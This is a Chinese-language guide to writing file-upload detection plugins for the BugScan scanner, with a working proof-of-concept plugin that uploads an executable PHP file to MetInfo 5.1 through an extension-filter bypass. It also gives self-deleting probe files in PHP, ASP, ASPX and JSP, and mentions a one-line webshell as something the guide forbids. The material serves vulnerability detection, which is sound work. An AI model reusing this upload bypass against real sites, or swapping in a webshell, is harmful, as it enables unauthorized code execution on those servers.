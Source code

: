 # 文件上传类
---

文件上传类插件可以分两种方法进行上传:

* raw (**推荐**)

    直接发送 HTTP 原始报文，可直接从 BurpSuite 中复制该报文，使用 hackhttp 的 raw 发包形式来上传文件。

* post 

	通过构造 `enctype="multipart/form-data"` 形式的 form  表单来上传文件。
	> 由于 MIME 类型较多，在处理时比较麻烦，官方推荐使用 raw 形式上传文件。

    

**范例插件**

[MetInfo5.1 /feedback/uploadfile_save.php 任意文件上传](http://q.bugscan.net/t/1472)

> 感谢插件作者: [wonderkun](http://q.bugscan.net/u/wonderkun)

```
#!/usr/bin/evn python
# -*-:coding:utf-8 -*-
# Author: wonderkun
# Name: MetInfo5.1 任意文件上传 getshell
# Refer: http://www.wooyun.org/bugs/wooyun-2015-0139168
# Data: 2015/12/15

import time

def assign(service,arg):
    if service == fingerprint.metinfo:
        return True, arg

def audit(arg):
    url = arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo"

    raw = '''
POST /feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo HTTP/1.1
Host: localhost
Content-Length: 423
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE1toBNeESf6p0uXQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=hfqa37uap92gdaoc2nsco6g0n1

------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][para]"

filea
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][type]"

5
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="filea"; filename="test.php"
Content-Type: application/x-php

<?php echo md5(1);unlink(__FILE__);?>
------WebKitFormBoundaryE1toBNeESf6p0uXQ--
    '''
    # proxy=('127.0.0.1',8080)
    code1, head1, res1, finalurl1, log1 = hackhttp.http(url, raw=raw)

    # get upload file name
    name = int(time.time())
    for i in range(100, 10000):
        filename = name + i
        url = arg + 'upload/file/%s.php' % (str(filename))
        code2, head2, res2, finalurl2, log2 = hackhttp.http(url)
        if code2 == 200 and "c4ca4238a0b923820dcc509a6f75849b" in res2:
            # 只用传递触发漏洞的 log，验证上传成功的 log 不需要
            security_hole('file upload Vulnerable:' + arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo", log=log1)
            break
if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.metinfo, "http://127.0.0.1/metinfo5.1/")[1])

```

### 文件上传类插件检测步骤

1. 上传指定文件到目标
2. 访问上传后的文件
3. 判断是不是 1 中上传的文件

### 文件上传类的插件原则

1. 一般情况下要求上传可执行的文件，例如：php, asp, aspx, jsp
2. 上传文件内容要求对目标不得造成任何形式的损害。
3. 上传后的文件，在访问一次之后应该自删除。
4. 文件名应该尽量随机，不要与正常文件名相同。

### 上传文件样例代码

BugScan 社区官方提供了以下几类语言的上传检测样本，供开发者参考，所有文件都会在访问一次之后自删除，如果无删除权限时，由于其只输出字符串，也不会造成太大危害。

* PHP

	```php
	<?php echo md5(233);unlink(__FILE__);?>
	```
	输出: e165421110ba03099a1c0393373c5b43

* ASP

	```
	<%
	Response.Write chr(101)&chr(49)&chr(54)&chr(53)&chr(52)&chr(50)&chr(49)&chr(49)&chr(49)&chr(48)&chr(98)&chr(97)&chr(48)&chr(51)&chr(48)&chr(57)&chr(57)&chr(97)&chr(49)&chr(99)&chr(48)&chr(51)&chr(57)&chr(51)&chr(51)&chr(55)&chr(51)&chr(99)&chr(53)&chr(98)&chr(52)&chr(51)
	CreateObject("Scripting.FileSystemObject").DeleteFile(server.mappath(Request.ServerVariables("SCRIPT_NAME")))
	%>
	```

	访问该文件后输出: e165421110ba03099a1c0393373c5b43

* ASPX

	```
	<%@Page Language="C#"%>
	<%
	Response.Write(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	System.IO.File.Delete(Request.PhysicalPath);
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

* JSP

	```jsp
	<%
	out.println(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	new java.io.File(application.getRealPath(request.getServletPath())).delete();
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

### 文件上传 Q & A

> Q: 为什么不能上传 `eval($_POST[a]);`?

> A: 上传 webshell 会对目标造成危害，违反了无损扫描这一约定，并且上传内容中包含后门特征，容易被防护产品拦截。

---

> Q: 为什么不能上传 `phpinfo();`?

> A: `phpinfo();`看起来无害实际上却有着泄漏目标服务敏感信息的危害。如果在检测后忘记删除文件，会对其它攻击者提供便利。 

---

> Q: 为什么要自删除？
> 
> A: 自删除可保证在检测之后不会在目标系统中留下检测时产生的文件，对目标影响较小。如果上传的件名不是随机的，在下次上传时会出现写入不成功的情况。

---

> Q: 为什么文件名要随机？
> 
> A: 文件名随机在检测没有重命名处理的上传点时好处有：
> 
> 1. 如果文件名与现有的文件同名，写入会失败或者覆盖原文件。
> 2. 第一次检测上传成功，在修复漏洞后忘记删除该文件，下次检测时访问该文件会产生误报。



